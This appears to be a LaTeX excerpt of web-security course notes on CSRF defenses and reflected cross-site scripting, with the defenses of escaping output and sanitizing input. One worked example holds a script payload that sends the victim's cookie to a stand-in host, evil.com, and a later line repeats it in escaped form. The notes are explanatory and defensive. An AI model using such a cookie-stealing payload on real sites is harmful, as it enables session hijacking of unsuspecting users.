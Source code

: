 \textbf{CSRF Defenses}
\begin{itemize}
	\item Secret validation token
		\texttt{<input type="hidden" value="1124lfjq2l3ir" >}

		You want to bind the sessionID to a particular token. How? (1) a state table at the server or (2) HMAC of sessionID
	\item Referer validation (in the header). An attacker script will say that referer is ``attacker.com''

		Lenient: referer in header=optional\\
		Strict: referer in header=required\\

		To prevent login CSRF, you want strict referer validation and login forms submitted over HTTPS. HTTPS sites in general use strict referer validation. Other sites use ROR or frameworks that implement this stuff for you.
	\item Custom HTTP header. \texttt{X-Requested-By: XMLHttpRequest}	
\end{itemize}

\begin{example}
evil.com sends the victim a frame:
	\begin{verbatim}
	<frame src="naive.com/hello?name=
	    <script>window.open('evil.com/steal.cgi?cookie='' + document.cookie)</script>
	">
	\end{verbatim}
Then, naive.com is opened and the script is executed, where the referer looks like naive.com. The naive.com cookie is sent as a parameter in a request to evil.com, and steal.cgi is executed with the cookie.
\end{example}

\textbf{Other CSS risks}\\
A form of ``reflection attack'' can change the contents of the affected website by manipulating DOM components. For example, an adversary may change form fields.

\textbf{Defenses}\\
\begin{enumerate}
	\item Escape output so that in the above example, you would display 
		\begin{verbatim}
			$lt;script$gt; post(evil.com, document.cookie) ...
		\end{verbatim}
		instead of executing a script
	\item Sanitize inputs by stripping all tags $<>$
\end{enumerate}

